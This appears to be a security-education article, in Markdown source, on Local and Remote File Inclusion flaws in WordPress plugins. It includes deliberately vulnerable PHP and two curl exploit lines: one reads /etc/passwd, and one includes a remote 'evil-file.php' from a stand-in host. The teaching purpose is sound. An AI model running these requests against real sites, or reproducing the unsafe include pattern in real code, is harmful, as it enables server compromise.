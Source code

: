 ```yaml
---
title: Local File Inclusion (LFI)
head:
    - tag: title
      content: Learn about Local File Inclusion (LFI)
contributors:
    - rafiem
    - dhakalananda
---
```




## Introduction

This article covers cases of possible LFI on WordPress. This includes improper file inclusion inside of the plugin/theme which can be used to gain RCE on the server.

<LinkCard
  title="Learn how to secure your code against Local File Inclusion"
  href="/academy/wordpress/securing-code/local-file-inclusion/"
/>

## Useful Functions

Several functions could be useful to identify a possible LFI vulnerability:

- [`include`](https://www.php.net/manual/en/function.include.php)
- [`include_once`](https://www.php.net/manual/en/function.include-once.php)
- [`require`](https://www.php.net/manual/en/function.require.php)
- [`require_once`](https://www.php.net/manual/en/function.require-once.php)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_render_lesson", "render_lesson_template");

function render_lesson_template(){
    $template_path      = urldecode( $_GET['template_path'] ?? '' );

    // For custom template return all list of lessons
    include $template_path;
    die();
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameter to trigger the `include` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=render_lesson&template_path=/etc/passwd
```

Below are some of the findings related to Local File Inclusion:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Security Vulnerability In OceanWP Theme \<= 3.4.1](https://patchstack.com/articles/subscriber-path-traversal-leading-to-local-file-inclusion-in-oceanwp-theme/)
- [Vulnerability In Rank Math SEO Plugin](https://patchstack.com/articles/authenticated-path-traversal-leading-to-local-file-inclusion-in-rank-math-seo-plugin/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version \<= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)

## Remote File Inclusion

If both the PHP options `allow_url_fopen` and `allow_url_include` are turned on in the PHP configuration, a remote file inclusion is possible which allows an even easier access to executing arbitrary PHP code on the server. It allows a malicious user to add the remote PHP file to be executed leading to code execution unlike LFI where a local file needs to be available.

## Example Cases

Similar to the above case, below is an example vulnerable scenario if the mentioned options are enabled in the PHP configuration:

```php
add_action("wp_ajax_nopriv_render_lesson", "render_lesson_template");

function render_lesson_template(){
    $template_path      = urldecode( $_GET['template_path'] ?? '' );

    // For custom template return all list of lessons
    include $template_path;
    die();
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the external link to the PHP code to trigger the `include` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=render_lesson&template_path=https://example.com/evil-file.php
```